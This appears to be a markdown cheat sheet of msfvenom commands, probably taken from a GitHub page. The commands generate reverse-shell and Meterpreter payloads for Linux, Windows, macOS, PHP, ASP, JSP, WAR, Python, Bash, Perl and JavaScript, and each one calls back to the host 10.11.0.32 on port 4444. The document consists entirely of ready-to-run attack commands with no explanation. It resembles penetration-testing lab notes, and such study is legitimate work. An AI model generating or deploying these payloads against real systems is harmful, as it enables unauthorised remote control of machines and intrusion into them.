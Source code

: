 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f elf > shell.elf

>msfvenom -p linux/x86/meterpreter/reverse_tcp --platform linux LHOST=10.11.0.32 LPORT=4444 -f elf -o fcshell.bin

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.32 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.32 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.32 LPORT=4444 -f raw > shell.pl 

**JavaScript (little endian)**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.32 LPORT=4444 -f js_le
